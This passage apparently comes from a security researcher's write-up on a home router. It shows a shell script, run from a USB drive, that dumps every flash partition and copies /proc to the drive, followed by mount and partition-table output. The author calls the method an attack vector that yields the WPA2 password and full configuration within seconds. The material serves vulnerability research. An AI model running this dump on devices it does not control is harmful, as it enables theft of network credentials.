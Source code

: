 ```bash
    sync

    ## dd all mounted file systems
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtdblock$i"; dd if="/dev/mtdblock${i}"\
           of="${WHERE}/fw-${i}.bin" bs=1 conv=noerror; done
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtd$i"; dd if="/dev/mtd${i}" \
           of="${WHERE}/fw-${i}b.bin" bs=1 conv=noerror; done
    sync

    # Make simple FS copy
    DDIR=`pwd`
    WHERE=/var/tmp/media/0AAA-0E65/HOMEROUTER
    cd /
	mkdir -p $WHERE
	find /proc -type f | grep -v '/sys/' | grep -v '/net/' | grep -v '/kmsg' | \
       while read F ; do
   		D=${WHERE}/${F%/*}
   		echo "D: $D  F: $F WHERE: ${WHERE}$F"
   		test -d "$D" || mkdir -p $D && echo "DIR: $D"
   		test -f "${WHERE}$F" || cat $F > ${WHERE}$F
	done
	cd "$DDIR"
fi
```

This is actually very powerful and convenient attack vector. One comes with USB drive to the router,
plugs it in and has a WPA2 password in seconds (all system configuration).

I’ve created a TAR of the whole filesystem plus raw binary images of the mounted file system.
With SSH I could start to mess around with the router firmware.

Firstly, the quick review of mounted file systems:

```
# mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
proc on /proc type proc (rw,relatime)
ramfs on /var type ramfs (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime)
devpts on /dev/pts type devpts (rw,relatime,mode=600)
/dev/mtdblock10 on /nvram type jffs2 (rw,relatime)
tmpfs on /fss type tmpfs (rw,relatime)
/dev/mtdblock6 on /fss/gw type squashfs (ro,relatime)
/dev/mtdblock7 on /fss/fss2 type squashfs (ro,relatime)
/dev/mtdblock9 on /fss/fss3 type squashfs (ro,relatime)
tmpfs on /etc type tmpfs (rw,relatime)
/dev/sda1 on /var/tmp/media/0AAA-0E65 type vfat (rw,relatime,fmask=0022,dmask=0022,codepage=cp437,iocharset=utf8,shortname=mixed,errors=remount-ro)

# cat /proc/mtd
dev:    size   erasesize  name
mtd0: 00020000 00010000 "U-Boot"
mtd1: 00010000 00010000 "env1"
mtd2: 00010000 00010000 "env2"
mtd3: 00b80000 00010000 "UBFI1"
mtd4: 001c191c 00010000 "Kernel"
mtd5: 00504c00 00010000 "RootFileSystem"
mtd6: 00377000 00010000 "FS1"
mtd7: 00440000 00010000 "FS2"
mtd8: 00b80000 00010000 "UBFI2"
mtd9: 00400000 00010000 "FS3"
mtd10: 00080000 00010000 "nvram"
```